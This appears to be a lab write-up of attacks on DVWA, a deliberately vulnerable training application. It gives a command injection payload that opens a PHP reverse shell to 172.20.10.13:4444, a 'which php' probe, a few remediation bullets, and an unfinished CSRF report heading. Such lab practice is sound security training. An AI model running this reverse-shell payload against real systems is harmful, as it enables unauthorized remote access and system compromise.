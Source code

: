 # Command Injection Exploitation - DVWA

## Exploit Summary
**Vulnerability**: OS Command Injection  
**Target**: DVWA Command Execution Module  
**Payload**: 
```
127.0.0.1; /usr/bin/php -r '$sock=fsockopen("172.20.10.13",4444);exec("sh <&3 >&3 2>&3");'
```

## Attack Flow

### Step 1: Initial Command Injection
<img width="700" height="487" alt="image" src="https://github.com/user-attachments/assets/14ccc83b-fc82-4561-ad5e-c9658c5591d9" />
*Command injection via IP parameter with reverse shell payload*

### Step 2: Reverse Shell Connection
<img width="482" height="537" alt="image" src="https://github.com/user-attachments/assets/f5d973af-25fb-497e-b2a2-538e05f5ab12" />
*Netcat listener receiving reverse shell connection*
<img width="958" height="642" alt="image" src="https://github.com/user-attachments/assets/b2916b2c-d3c2-45ee-948f-5d3393e3ae7b" />
*Gaining shell access*
### Command injection to find php 
```
127.0.0.1; which php
```

## Technical Details
- **Injection Point**: IP address parameter
- **Reverse Shell**: PHP backdoor to attacker IP `172.20.10.13:4444`
- **Result**: Full system compromise with root access

## 🛡️ Remediation
- Input validation and sanitization
- Use of parameterized commands
- Principle of least privilege

# CSRF Vulnerability Report

## Vulnerability Summary
**Type**: Cross-Site Request Forgery (CSRF)  
**Risk**: High  
**Location**: DVWA Password Change Function  
**Endpoint**: `http://localhost/vulnerabilities/csrf/`
